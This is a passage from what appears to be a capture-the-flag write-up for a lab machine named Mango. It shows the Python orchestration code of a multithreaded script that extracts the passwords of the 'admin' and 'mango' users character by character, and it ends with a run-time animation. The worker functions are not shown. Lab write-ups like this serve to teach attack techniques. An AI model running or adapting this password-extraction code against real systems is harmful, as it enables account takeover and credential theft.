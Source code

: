 ### The 3rd Part: Starting the workers and letting them retrieve the passwords for both usernames
```python
# we target both the admin and the mango users, we enumerated the latter using the alternative code above in the test function
target_users = ["admin", "mango"]

# foreach user, start with an empty password/catch variables
for target_user in target_users:
	password = ""
	catch = ""

	# add each of worker functions to the threads array
	while True:
		threads = []
		t = Thread(target = alpha_L1)
		threads.append(t)
		t = Thread(target = alpha_L2)
		threads.append(t)
		t = Thread(target = alpha_U1)
		threads.append(t)
		t = Thread(target = alpha_U2)
		threads.append(t)	
		t = Thread(target = numbers)
		threads.append(t)	
		t = Thread(target = symbols_1)
		threads.append(t)
		t = Thread(target = symbols_2)
		threads.append(t)

		# start the workers
		for worker in threads:
			worker.start()

		# wait for workers to finish
		for worker in threads:
			worker.join()

		# if there was no catch, break because that means we have the complete password
		if catch == "":
			break
		# if there was a catch, append it to the password and clear out the variable
		password += catch
		catch = ""

	# print out the password at the end for each user
	print ("\r" + "[+] the password for " + target_user + ": " + password.ljust(25))
```

Here's ***what the script looks like during run-time:***

![](/assets/Mango/getting-passwords.gif)
